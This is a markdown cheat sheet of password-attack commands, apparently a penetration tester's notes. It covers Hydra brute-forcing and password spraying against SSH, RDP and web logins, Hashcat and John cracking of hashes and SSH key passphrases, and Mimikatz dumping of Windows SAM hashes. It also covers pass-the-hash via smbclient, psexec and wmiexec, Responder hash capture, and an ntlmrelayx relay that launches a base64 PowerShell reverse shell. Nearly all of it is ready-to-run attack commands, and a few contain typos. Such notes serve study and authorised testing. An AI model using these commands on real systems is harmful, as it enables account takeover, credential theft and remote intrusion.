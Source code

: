 # Password attacks

Graphics card cracking: https://www.tomshardware.com/news/eight-rtx-4090s-can-break-passwords-in-under-an-hour

## Hydra

### Wordlist

```
hydra -l user -P wordlist.txt -s PortVictim ssh://IpVictim
hydra -l user -P wordlist.txt rdp://IpVictim # default is 3389
```

### Spraying

```
hydra -L userlist.txt -p "hackedpassword" rdp://IpVictim
```

### Http

```
hydra -P wordlist.txt http-post-form $IpVictim "/baseurl:user_form_field=admin:password_form_field=^PASS^:error message when password is wrong"
hydra -l user -P wordlist.txt http-get $IpVictim
```

## Hashcat

```
hashcat wordlist.txt -j 'd' wordlist.txt --stdout > newwordlist.txt
hastcat wordlist.txt -r rulelist.txt --stdout
hashcat -m 0 tocrack.txt -k 'u' newwordlist.txt --force
hashcat -m passman.mode passman.hash rockyou.txt -r rockyou-30000.rule --force
```

## Powershell

Find extensions:
```
Get-ChildItem -Path C:\ -Include *.someextension -File -Recurse -ErrorAction SilentlyContinue
```

## Ssh passphrase

```
ssh2john id_rsa > ssh.hash
hashcat -h | grep -i "ssh"
hashcat -m ssh.hashcat.mode ssh.hash ssh.passwords -r ssh.rule --force
cp ssh.rule /etc/john/otherssh.rule
vim /etc/john/john.config
john --wordlist=ssh.passwords --rules=sshJohnRules ssh.hash
```

## NTLM

On Windows:
```
Get-LocalUser
.\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
```
Back on Kali:
```
hashcat -h | grep -i ntlm
hashcat -m ntlm.mode user.hash /u/s/w/rockyou.txt -r /u/s/h/r/best64.rule --force
```

## Pass NTLM

```
smbclient \\\\IpVictim\\someshare -U Administrator --pw-nt-hash adminhash # smb> get file.txt
impacket-psexec -hashes 00000000000000000000000000000000:adminhash Administrator@IpVictim # nt authority\system
impacket-wmiexec -hashes 00000000000000000000000000000000:adminhash Administrator@IpVictim # host\administrator

```

## Net-NTLMv2

Kali
```
sudo responder -I ethX
```
Windows
```
smb \\IpAtt\fakeshare
```
then `hashcat`

## Relay Net-NTLMv2

```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t IpVictim -c "powershell -enc base64reverseshell"
```

